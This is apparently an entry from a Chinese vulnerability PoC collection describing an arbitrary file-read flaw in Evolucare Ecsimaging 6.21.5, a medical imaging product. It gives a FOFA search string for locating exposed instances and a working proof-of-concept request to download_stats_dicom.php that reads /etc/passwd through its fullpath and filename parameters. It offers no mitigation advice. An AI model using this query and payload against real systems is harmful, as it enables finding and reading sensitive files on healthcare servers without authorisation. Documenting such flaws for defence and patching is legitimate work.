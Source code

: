 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 6.21.5</a-checkbox></br>

## FOFA

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c-20220313153823825.png)

验证POC

```javascript
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![img](../../../.vuepress/public/img/1645546522769-c4a3e88c-e234-49f9-b1f6-2d49742683b0.png)